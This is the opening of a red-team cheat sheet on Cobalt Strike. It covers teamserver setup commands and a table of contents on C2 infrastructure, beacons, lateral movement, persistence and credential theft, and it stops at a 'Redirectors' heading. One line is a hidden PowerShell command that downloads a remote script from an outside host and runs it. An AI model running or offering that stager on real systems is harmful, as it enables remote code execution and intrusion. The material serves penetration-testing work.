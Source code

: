 # Cobalt Strike

> Cobalt Strike is threat emulation software. Red teams and penetration testers use Cobalt Strike to demonstrate the risk of a breach and evaluate mature security programs. Cobalt Strike exploits network vulnerabilities, launches spear phishing campaigns, hosts web drive-by attacks, and generates malware infected files from a powerful graphical user interface that encourages collaboration and reports all activity.


```powershell
$ sudo apt-get update
$ sudo apt-get install openjdk-11-jdk
$ sudo apt install proxychains socat
$ sudo update-java-alternatives -s java-1.11.0-openjdk-amd64
$ sudo ./teamserver 10.10.10.10 "password" [malleable C2 profile]
$ ./cobaltstrike
$ powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://campaigns.example.com/download/dnsback'))" 
```

## Summary

* [Infrastructure](#infrastructure)
    * [Redirectors](#redirectors)
    * [Domain fronting](#domain-fronting)
    * [OpSec](#opsec)
* [Payloads](#payloads)
    * [DNS Beacon](#dns-beacon)
    * [SMB Beacon](#smb-beacon)
    * [Metasploit compatibility](#metasploit-compatibility)
    * [Custom Payloads](#custom-payloads)
* [Malleable C2](#malleable-c2)
* [Files](#files)
* [Powershell and .NET](#powershell-and-net)
    * [Powershell commabds](#powershell-commands)
    * [.NET remote execution](#net-remote-execution)
* [Lateral Movement](#lateral-movement)
* [VPN & Pivots](#vpn--pivots)
* [Kits](#kits)
    * [Elevate Kit](#elevate-kit)
    * [Persistence Kit](#persistence-kit)
    * [Resource Kit](#resource-kit)
    * [Artifact Kit](#artifact-kit)
    * [Mimikatz Kit](#mimikatz-kit)
* [NTLM Relaying via Cobalt Strike](#ntlm-relaying-via-cobalt-strike)
* [References](#references)


## Infrastructure

### Redirectors
